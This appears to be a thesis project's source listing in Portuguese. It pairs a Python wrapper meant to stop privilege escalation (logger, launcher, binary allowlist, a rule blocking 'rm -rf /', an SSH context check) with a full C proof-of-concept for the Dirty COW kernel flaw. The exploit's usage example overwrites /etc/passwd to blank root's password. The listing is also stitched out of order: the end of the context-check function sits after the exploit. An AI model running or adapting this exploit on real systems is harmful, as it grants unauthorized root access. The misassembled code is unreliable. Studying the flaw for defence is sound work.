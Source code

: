 # thesis_dirtyc0w_model
Model that prevent privilege escalation


------------------------------------------
LOGGER

import datetime

LOG_FILE = "/var/log/tef.log"

def log_event(event):
    """
    Regista um evento no ficheiro de log com data/hora.
    :param event: Texto do evento a registar
    """
    with open(LOG_FILE, "a") as log:
        log.write(f"{datetime.datetime.now()} - {event}\n")


------------------------------------------------------
MAIN

#!/usr/bin/env python3
import sys
import os

from context_validator import validate_context
from binary_validator import validate_binary
from action_authorizer import authorize_action
from logger import log_event

def main():
    if len(sys.argv) < 2:
        print("[TEF] Erro: Nenhum comando fornecido.")
        sys.exit(1)

    command = sys.argv[1]
    arguments = sys.argv[1:]

    # Camada 1 - Verificação de contexto
    if not validate_context():
        print("[TEF] Bloqueado: execução em contexto não autorizado.")
        log_event(f"[BLOQUEADO] Contexto não autorizado para {command}")
        sys.exit(1)

    # Camada 2 - Validação de binário
    if not validate_binary(command):
        print(f"[TEF] Bloqueado: {command} não está autorizado.")
        log_event(f"[BLOQUEADO] Binário não autorizado: {command}")
        sys.exit(1)

    # Camada 3 - Autorização de ação
    if not authorize_action(command, arguments):
        print(f"[TEF] Bloqueado: ação não autorizada ({' '.join(arguments)})")
        log_event(f"[BLOQUEADO] Ação não autorizada: {arguments}")
        sys.exit(1)

    # Se tudo passou, executa o comando real
    log_event(f"[PERMITIDO] {command} {' '.join(arguments)}")
    os.execvp(command, arguments)

if __name__ == "__main__":
    main()
---------------------------------------------------------
ACTION


def authorize_action(command, arguments):
    """
    Autoriza ou bloqueia ações específicas mesmo quando o binário é válido.
    Aqui podes definir regras adicionais (ex.: parâmetros proibidos, horários).
    :param command: Binário que vai ser executado
    :param arguments: Lista de argumentos passados ao comando
    :return: True se a ação for permitida, False caso contrário
    """
    # Exemplo: bloquear se tentar usar 'rm -rf /'
    if command == "/bin/rm" and "-rf" in arguments and "/" in arguments:
        return False

    # Neste protótipo, todas as ações passam se não houver regra explícita a bloquear
    return True
----------------------------------------------
BINARY

# Lista de binários autorizados a executar com privilégios elevados
SAFE_BINARIES = [
    "/usr/bin/sudo",
    "/usr/bin/passwd"
]

def validate_binary(command):
    """
    Verifica se o binário solicitado está autorizado.
    :param command: Caminho completo do binário
    :return: True se for permitido, False caso contrário
    """
    return command in SAFE_BINARIES
-----------------------------------------------------

CONTEXT

import os

def validate_context():
    """
    Verifica se a execução está a ocorrer num contexto autorizado.
    Exemplo simples: bloquear execução remota via SSH.
    :return: True se o contexto for válido, False caso contrário
    """
    # Bloqueia execuções feitas através de ligação SSH
    if os.getenv("SSH_CONNECTION"):
        return False


--------------------------------------------

EXPLOIT

/*
 * dirtyc0w.c
 *
 * Exploit PoC para CVE-2016-5195 (Dirty COW)
 * 
 * Uso:
 *   gcc -pthread dirtyc0w.c -o dirtyc0w
 *   ./dirtyc0w <ficheiro alvo> <conteúdo novo>
 *
 * Exemplo:
 *   ./dirtyc0w /etc/passwd "root::0:0:root:/root:/bin/bash\n"
 */

#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/stat.h>

void *map;
char *payload;
struct stat st;
int fd;

void *madviseThread(void *arg) {
    for (int i = 0; i < 1000000; i++)
        madvise(map, st.st_size, MADV_DONTNEED);
    return NULL;
}

void *writeThread(void *arg) {
    int f = open("/proc/self/mem", O_RDWR);
    for (int i = 0; i < 1000000; i++) {
        lseek(f, (off_t)map, SEEK_SET);
        write(f, payload, strlen(payload));
    }
    return NULL;
}

int main(int argc, char *argv[]) {
    if (argc < 3) {
        printf("Uso: %s <ficheiro alvo> <conteúdo novo>\n", argv[0]);
        return 1;
    }

    payload = argv[2];
    fd = open(argv[1], O_RDONLY);
    if (fd < 0) {
        perror("open");
        return 1;
    }
    fstat(fd, &st);

    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd, 0);
    if (map == MAP_FAILED) {
        perror("mmap");
        return 1;
    }

    pthread_t t1, t2;
    pthread_create(&t1, NULL, madviseThread, NULL);
    pthread_create(&t2, NULL, writeThread, NULL);

    pthread_join(t1, NULL);
    pthread_join(t2, NULL);

    printf("[+] Exploit terminado. Verifica o ficheiro!\n");
    return 0;
}



    # Poderias adicionar aqui outras regras de contexto:
    # - Terminal físico vs remoto
    # - Sessão interativa vs scripts automáticos
    return True


